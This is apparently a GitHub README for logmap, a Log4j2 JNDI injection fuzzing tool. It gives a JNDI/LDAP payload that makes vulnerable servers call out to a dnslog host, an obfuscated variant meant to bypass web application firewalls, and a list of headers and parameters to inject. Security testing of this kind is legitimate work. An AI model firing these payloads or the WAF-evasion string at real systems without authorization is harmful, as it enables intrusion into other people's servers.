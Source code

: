 # logmap 0.6 - Log4j jndi injection fuzz tool

Used for fuzzing to test whether there are log4j2 jndi injection vulnerabilities in header/body/path  
Use https://log.xn--9tr.com dnslog by default, If you want to use http://ceye.io, you need to modify the domain and token  
Manually edit line [#486](https://github.com/zhzyker/logmap/blob/main/logmap.py#L486) in logmap.py to modify:  
`args.ceye = ["xxxxxx.ceye.io", "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"]`  
to   
`args.ceye = ["1234567.ceye.io", "843fd6d58a8ebede756a2b991d321a5a"]`  

The default payload is `${{jndi:ldap://you-domain/path}}` Use `-w` or `-waf` to obfuscate the payload to bypass waf, it looks like:  
 `${${zod:as:-j}ndi:ldap:${MOH7P:-/}/${jUqr1:dlhUT:zX:Mu:rXx:-9}b71${6r3c:E8ExQh:a:iqML:-a}${jLR:s6xE:-7}${j:zzb:-3}d8${f:CF:DpXSA:-0}${7:2:yM:LnbSk:-1}c3199${4tPUvE:fj7:6K:xpqPQc:rCnYQB:-1}${G:Q:SET9R:u:9t0cc1:-1}${cLF:kENZON:e:p6f:-9}${y:i:abgu0:2cb:-3}6${35aUvK:40sxe:PaVK:cR:-d}${ysVe:byc:e:5nvP:9yVRko:-3}${Cm:DLU:-c}3f0b${iiuZKY:taWD:-4}${B:VK3:3BWv:L:-4}${KA6:GX:xxVWZg:-3}5.${6E50:-f}${iNN4:Ol:XLrqD:-3}${3Fh:T6:-6}e4${IAyoy:-d}${hMZgt:bmBCp9:bY6ofD:KR:-e}${6Ny3E:-b}.${K:Q:-d}n${FLlWGk:-s}.14${8M:-3}${W0u:LA5Z:N:-3}${t5FH:-.}e${GL:x0L72g:bqf9:6:pRQp:-u}${VIq:V:-.}${r:zFcvb:7hqmx:HTGO8:-o}r${n1ZHSo:w:-g}./Efti${Q3:-G}1}`   
Bypass reference: [StringObfuscator2.java](https://github.com/woodpecker-appstore/log4j-payload-generator/blob/master/src/main/java/me/gv7/woodpekcer/vuldb/StringObfuscator2.java) by https://github.com/c0ny1

Use `-c 1` or `--cve 1` to specify the payload, support: [1:CVE-2021-44228, 2:CVE-2021-45046]  

This is just a jndi injection fuzz tool, rce or others need yourself  

# Use  
```bash
zhzy@debian:~/$ pip3 install -r requirements.txt
zhzy@debian:~/$ python3 logmap.py -h
```


![banner](https://user-images.githubusercontent.com/32918050/145970843-3d5522f6-0064-4464-b7f8-48efcd41ffbc.png)  

# Options
```bash
  -u URL, --url URL     Target URL (e.g. http://example.com )
  -f FILE, --file FILE  Select a target list file (e.g. list.txt )
  -c 1, --cve 1         CVE [1:CVE-2021-44228, 2:CVE-2021-45046] default 1
  -d 1, --dns 1         Dnslog [1:log.xn--9tr.com, 2:ceye.io] default 1
  -p PAYLOAD            Custom payload (e.g. ${jndi:ldap://xx.dns.xx/} )
  -t 10                 Http timeout default 10s
  -o file               Output file
  -w, --waf             Obfuscate the payload and bypass waf
  --proxy PROXY         Proxy [socks5/socks4/http] (e.g. http://127.0.0.1:8080)
  -h, --help            Show this help message and exit
```

# Config  
There are currently 93 fuzz headers  
```
Accept
Accept-Charset
Accept-Datetime
Accept-Encoding
Accept-Language
Ali-CDN-Real-IP
Authorization
Cache-Control
Cdn-Real-Ip
Cdn-Src-Ip
CF-Connecting-IP
Client-IP
Contact
Cookie
DNT
Fastly-Client-Ip
Forwarded-For-Ip
Forwarded-For
Forwarded
Forwarded-Proto
From
If-Modified-Since
Max-Forwards
Originating-Ip
Origin
Pragma
Proxy-Client-IP
Proxy
Referer
TE
True-Client-Ip
True-Client-IP
Upgrade
User-Agent
Via
Warning
WL-Proxy-Client-IP
X-Api-Version
X-ATT-DeviceId
X-Client-IP
X-Cluster-Client-IP
X-Correlation-ID
X-Csrf-Token
X-CSRFToken
X-Do-Not-Track
X-Foo-Bar
X-Foo
X-Forwarded-By
X-Forwarded-For-Original
X-Forwarded-For
X-Forwarded-Host
X-Forwarded
X-Forwarded-Port
X-Forwarded-Protocol
X-Forwarded-Proto
X-Forwarded-Scheme
X-Forwarded-Server
X-Forwarded-Ssl
X-Forwarder-For
X-Forward-For
X-Forward-Proto
X-Frame-Options
X-From
X-Geoip-Country
X-Host
X-Http-Destinationurl
X-Http-Host-Override
X-Http-Method-Override
X-HTTP-Method-Override
X-Http-Method
X-Http-Path-Override
X-Https
X-Htx-Agent
X-Hub-Signature
X-If-Unmodified-Since
X-Imbo-Test-Config
X-Insight
X-Ip
X-Ip-Trail
X-Leakix
X-Original-URL
X-Originating-IP
X-ProxyUser-Ip
X-Real-Ip
X-Remote-Addr
X-Remote-IP
X-Requested-With
X-Request-ID
X-True-IP
X-UIDH
X-Wap-Profile
X-WAP-Profile
X-XSRF-TOKEN
```
Some body and path  
You can also modify him to add your own body  
```
payload={}
user={}
pass={}
username={}
password={}
login={}
... ...
?id={}
?username={}
... ...
```
